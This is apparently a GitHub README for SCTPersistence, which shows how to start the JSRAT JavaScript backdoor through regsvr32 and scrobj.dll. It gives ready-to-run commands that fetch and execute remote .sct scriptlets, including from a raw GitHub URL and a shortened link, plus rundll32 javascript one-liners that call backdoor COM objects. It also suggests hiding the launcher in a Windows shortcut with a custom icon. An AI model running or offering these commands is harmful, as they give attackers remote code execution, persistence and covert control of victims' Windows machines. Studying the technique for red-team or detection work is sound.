 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


His Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-rewrite the regkey


-the Class definition comes form the interwebs http://server/c2.js


2.c2.js


-javascript payload


-.sct format


3.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Component.Backdoor");x.Main();`


or


-js


`var x = new ActiveXObject("Component.Backdoor");
x.Main();
var x = new ActiveXObject("Component.Backdoor");
x.Exec();`


My Way:


1.On host, execute regsvr32.exe /u /n /s /i:http://server/Backdoor.sct scrobj.dll


-The default is to use the path to a local file


-Connect to the JSRAT server


2.call the COM Object


-cmd


`rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();x=new%20ActiveXObject("Empire");x.Exec();`


-js


`var ref = new ActiveXObject("JSRAT");
ref.Exec();`




---
###Usage:

1.(local)


`regsvr32.exe /u /n /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /u /n /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT



---
---

##ShortJSRAT
You can run the following code to start JSRAT:


`regsvr32 /s /n /u /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/ShortJSRAT.sct scrobj.dll`

###Why create this:

Limit command length to 260 characters.


When we create a Windows shortcut with personnalized icon to start JSRAT,the code of JSRAT is longer than 260charaters.


But we can use regsvr32.exe to run .sct file with very few letters.


What's more, the third-party link shortener Twitter can save more space.
Google url shortener,like this:
regsvr32 /s /n /u /i:https://goo.gl/ijB12k scrobj.dll







